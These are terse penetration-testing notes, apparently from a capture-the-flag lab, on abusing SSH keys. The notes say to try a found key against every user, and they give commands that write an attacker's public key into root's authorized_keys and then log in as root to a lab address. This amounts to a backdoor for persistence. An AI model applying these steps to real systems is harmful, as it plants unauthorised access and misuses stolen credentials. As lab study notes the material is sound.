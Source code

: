 # Access to a Key

If you find an SSH key, attempt to use that key to login to the related user and all possible users.
# Key Write Access

#securing-root 

Make new keys if you have root write access

1. Create new ssh keys using ssh-keygen on your machine
2. Copy the public key from `id_rsa.pub` and create a new file `authorized_keys` in `/root/.ssh/`
3. Get a SSH connection on your machine: `ssh -i id_rsa root@10.10.10.220`


```
$ cd /home/user
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGEUzu7cGthWtPNXM5/rAvPBywgyh68AEpSyUBXm24kByXu+GhEmvAiVlkAhasBgTjiCbpup3dmzz54ADlo4T2jUWoVVEDOw82eKQ6EoqpYnHGVmpDmJ1n7+eCvb3ut0bl5VOnTkhYSWS8G9V6V+E/VmDun63HoHCHzvtBlbN/ZmhRKxdwNFSYN/NswU8MFK+MVXxa/FJUxrOJVAnefXQdfDBxIt4j/qqMr68u9lQfqOX5shmS0M55lFNAY2mR6INBQtT6AnAWremPCHdUHxU3eSvzUcItaamecSPTfDgMQDQkxXrrsKQLkJeCKZ/1EwDBXIF3RGCeNGq0hCYHSF8d root@kali" > .ssh/authorized_keys$
```

# Running Internally

It is possible to SSH internally if there is SSH running already on the victim, `ps aux` to privilege escalation